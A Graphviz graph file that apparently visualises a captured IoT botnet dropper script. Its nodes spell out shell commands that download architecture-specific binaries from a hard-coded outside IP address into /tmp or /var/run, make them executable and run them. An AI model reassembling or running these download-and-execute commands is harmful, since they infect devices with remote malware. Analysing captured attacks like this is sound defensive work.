 digraph {
76 [label="cd /var/run "];
76 -> 78 [label="SC,(,"];
78 [label="cd /tmp "];
78 -> 4 [label="||,"];
4 [label="rm -rf qoH8SotBDj "];
4 -> 76 [label=";,"];
76 [label="cd /var/run "];
76 -> 78 [label="),;,SC,(,"];
78 [label="cd /tmp "];
78 -> 10 [label="||,"];
10 [label="wget http://158.255.5.220/mips -O qoH8SotBDj "];
10 -> 82 [label=";,"];
82 [label="chmod +x qoH8SotBDj "];
82 -> 83 [label=";,"];
83 [label="./qoH8SotBDj "];
83 -> 76 [label=";,"];
76 [label="cd /var/run "];
76 -> 78 [label="),||,SC,(,"];
78 [label="cd /tmp "];
78 -> 20 [label="||,"];
20 [label="wget http://158.255.5.220/armv4l -O qoH8SotBDj "];
20 -> 82 [label=";,"];
82 [label="chmod +x qoH8SotBDj "];
82 -> 83 [label=";,"];
83 [label="./qoH8SotBDj "];
83 -> 76 [label=";,"];
76 [label="cd /var/run "];
76 -> 78 [label="),||,SC,(,"];
78 [label="cd /tmp "];
78 -> 30 [label="||,"];
30 [label="wget http://158.255.5.220/mipsel -O qoH8SotBDj "];
30 -> 82 [label=";,"];
82 [label="chmod +x qoH8SotBDj "];
82 -> 83 [label=";,"];
83 [label="./qoH8SotBDj "];
83 -> 76 [label=";,"];
76 [label="cd /var/run "];
76 -> 78 [label="),||,SC,(,"];
78 [label="cd /tmp "];
78 -> 40 [label="||,"];
40 [label="wget http://158.255.5.220/armv7l -O qoH8SotBDj "];
40 -> 82 [label=";,"];
82 [label="chmod +x qoH8SotBDj "];
82 -> 83 [label=";,"];
83 [label="./qoH8SotBDj "];
83 -> 76 [label=";,"];
76 [label="cd /var/run "];
76 -> 78 [label="),||,SC,(,"];
78 [label="cd /tmp "];
78 -> 50 [label="||,"];
50 [label="wget http://158.255.5.220/armv5l -O qoH8SotBDj "];
50 -> 82 [label=";,"];
82 [label="chmod +x qoH8SotBDj "];
82 -> 83 [label=";,"];
83 [label="./qoH8SotBDj "];
83 -> 76 [label=";,"];
76 [label="cd /var/run "];
76 -> 78 [label="),||,SC,(,"];
78 [label="cd /tmp "];
78 -> 60 [label="||,"];
60 [label="wget http://158.255.5.220/armv6l -O qoH8SotBDj "];
60 -> 82 [label=";,"];
82 [label="chmod +x qoH8SotBDj "];
82 -> 83 [label=";,"];
83 [label="./qoH8SotBDj "];
83 -> 76 [label=";,"];
76 [label="cd /var/run "];
76 -> 78 [label="),||,SC,(,"];
78 [label="cd /tmp "];
78 -> 70 [label="||,"];
70 [label="wget http://158.255.5.220/sh4 -O qoH8SotBDj "];
70 -> 82 [label=";,"];
82 [label="chmod +x qoH8SotBDj "];
82 -> 83 [label=";,"];
83 [label="./qoH8SotBDj "];
83 -> 76 [label=";,"];
76 [label="cd /var/run "];
76 -> 78 [label="),||,SC,(,"];
78 [label="cd /tmp "];
78 -> 80 [label="||,"];
80 [label="wget http://158.255.5.220/x64 -O qoH8SotBDj "];
80 -> 82 [label=";,"];
82 [label="chmod +x qoH8SotBDj "];
82 -> 83 [label=";,"];
}
